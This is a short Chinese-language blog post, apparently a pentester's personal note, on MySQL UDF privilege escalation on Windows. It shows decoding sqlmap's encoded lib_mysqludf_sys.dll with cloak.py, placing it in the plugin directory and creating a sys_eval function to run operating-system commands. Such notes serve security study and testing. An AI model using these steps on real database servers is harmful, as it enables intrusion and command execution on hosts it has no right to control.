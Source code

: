```yaml
---
layout:     post
title:      windows mysql udf提权笔录
subtitle:   
date:       2019-02-26
author:     跳跳龙
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - mysql
    - udf
    
---
```



![](http://tiaotiaolong.cn-bj.ufileos.com/blog12-01.jpg)

2.按照mysql的位数来确定。原文件是xor编码的，需要用sqlmap的解码工具。位置在sqlmap的extra目录下。

```
python cloak.py -d -i ../../udf/mysql/windows/64/lib_mysqludf_sys.dll_
```

3.解码完毕之后发现目录下多了一个dll文件 lib_mysqludf.dll。
4.将文件上传到mysql的安装目录下的plugin的目录下。

![](http://tiaotiaolong.cn-bj.ufileos.com/blog12-02.jpg)

5.引入我们的dll文件。

```
create function sys_eval returns string soname 'lib_mysqludf_sys.dll'
```
其中，sys_eval函数是dll文件中提供的。具体的还有很多，如下：

```

strings udf.dll

```
![](http://tiaotiaolong.cn-bj.ufileos.com/blog12-03.jpg)


![](http://tiaotiaolong.cn-bj.ufileos.com/blog12-04.jpg)
这样就是引入成功了，这个时候sys_eval这个函数就是用户自定义的并且可以使用了。

6.test
![](http://tiaotiaolong.cn-bj.ufileos.com/blog12-05.jpg)






